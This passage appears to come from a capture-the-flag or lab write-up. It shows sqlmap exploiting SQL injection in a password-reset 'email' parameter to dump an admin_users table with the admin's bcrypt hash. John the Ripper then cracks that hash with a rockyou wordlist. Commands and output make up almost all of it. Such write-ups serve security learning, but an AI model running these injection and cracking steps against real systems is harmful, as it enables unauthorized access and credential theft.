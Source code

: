 ```bash
[20:31:52] [INFO] retrieved: password                                                                                                  
[20:32:03] [INFO] retrieved: name                                                                                                      
[20:32:07] [INFO] retrieved: avatar                                                                                                    
[20:32:12] [INFO] retrieved: remember_token                                                                                            
[20:32:31] [INFO] retrieved: created_at                                                                                                
[20:32:42] [INFO] retrieved: updated_at                                                                                                

```

Then I dumped the `admin_users` table

```bash
$ python3 sqlmap.py -r ../pass_reset.txt -p email --batch --level 5 --risk 2 --dbms=mysql -D usage_blog -T admin_users -C username,password --dump
...snip...

[20:34:47] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[20:34:47] [INFO] retrieved: 
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] Y
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
[20:36:21] [INFO] retrieved: admin
Database: usage_blog
Table: admin_users
[1 entry]
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 |
+----------+--------------------------------------------------------------+
```

That `password` field was a hash, so I used `john` to crack it

```bash
$ john hash --wordlist=/usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou-35.txt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)
1g 0:00:00:08 100% 0.1239g/s 205.2p/s 205.2c/s 205.2C/s whatever1..helpme
Use the "--show" option to display all of the cracked passwords reliably
Session completed

$ john hash --show
?:whatever1
```
